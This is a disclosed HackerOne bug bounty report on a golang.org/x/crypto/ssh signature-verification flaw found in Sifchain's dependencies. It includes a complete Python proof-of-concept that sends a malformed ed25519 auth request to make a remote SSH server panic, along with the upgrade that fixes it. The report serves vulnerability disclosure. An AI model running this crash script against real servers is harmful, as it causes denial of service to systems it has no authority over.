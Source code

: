 # Signature Verification /// golang.org/x/crypto/ssh

## Report Details
- **Report ID**: 1276384
- **URL**: https://hackerone.com/reports/1276384
- **State**: Closed
- **Severity**: high
- **Submitted**: 2021-07-23T18:46:20.991Z
- **Disclosed**: 2021-12-09T17:44:54.208Z

## Reporter
- **Username**: dpredrag
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: sifchain

## Vulnerability Information
## Summary:
Crypto package are vulnerable to Improper Signature Verification "
An attacker can craft an ssh-ed25519 or sk-ssh-...@openssh.com public key, such that the library will panic when trying to verify a signature with it. Clients can deliver such a public key and signature to any golang.org/x/crypto/ssh server with a PublicKeyCallback, and servers can deliver them to any golang.org/x/crypto/ssh client "

Introduced through: github.com/Sifchain/sifnode@0.0.0 › golang.org/x/crypto@v0.0.0-20201016220609-9e8e0b390897
Introduced through: github.com/Sifchain/sifnode@0.0.0 › github.com/tyler-smith/go-bip39@v1.1.0 › golang.org/x/crypto@v0.0.0-20200622213623-75b288015ac9
and few more I can provide more points if needed

{F1386859}

## Steps To Reproduce:

1 . python poc.py localhost 2022 root (or x.x.x.x depends on setup)

poc.py

```
# This should cause a panic on the remote server.
#

#!/usr/bin/env python

import socket
import sys

import paramiko
from paramiko.common import cMSG_SERVICE_REQUEST, cMSG_USERAUTH_REQUEST

if len(sys.argv) != 4:
    print('./poc.py <host> <port> <user>')
    sys.exit(1)

host = sys.argv[1]
port = int(sys.argv[2])
user = sys.argv[3]

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((host, port))

t = paramiko.Transport(sock)
t.start_client()

t.lock.acquire()
m = paramiko.Message()
m.add_byte(cMSG_SERVICE_REQUEST)
m.add_string("ssh-userauth")
t._send_message(m)

m = paramiko.Message()
m.add_byte(cMSG_USERAUTH_REQUEST)
m.add_string(user)
m.add_string("ssh-connection")
m.add_string('publickey')
m.add_boolean(True)
m.add_string('ssh-ed25519')

# Send an SSH key that is too short (ed25519 keys are 32 bytes)
m.add_string(b'\x00\x00\x00\x0bssh-ed25519\x00\x00\x00\x15key-that-is-too-short')

# Send an empty signature (the server won't get far enough to validate it)
m.add_string(b'\x00\x00\x00\x0bssh-ed25519\x00\x00\x00\x00')

t._send_message(m)

print('Malformed auth request sent. This should cause a panic on the remote server.')
```

This can be fixed by upgrading to golang.org/x/crypto@0.0.0-20201203163018-be400aefbc4c 

## Supporting Material/References:
https://groups.google.com/g/golang-announce/c/3L45YRc91SY
https://github.com/golang/crypto/commit/bac4c82f69751a6dd76e702d54b3ceb88adab236

## Impact

Summary

## Attachments
- screencapture-github-golang-crypto-commit-bac4c82f69751a6dd76e702d54b3ceb88adab236-2021-07-23-20_42_26.png
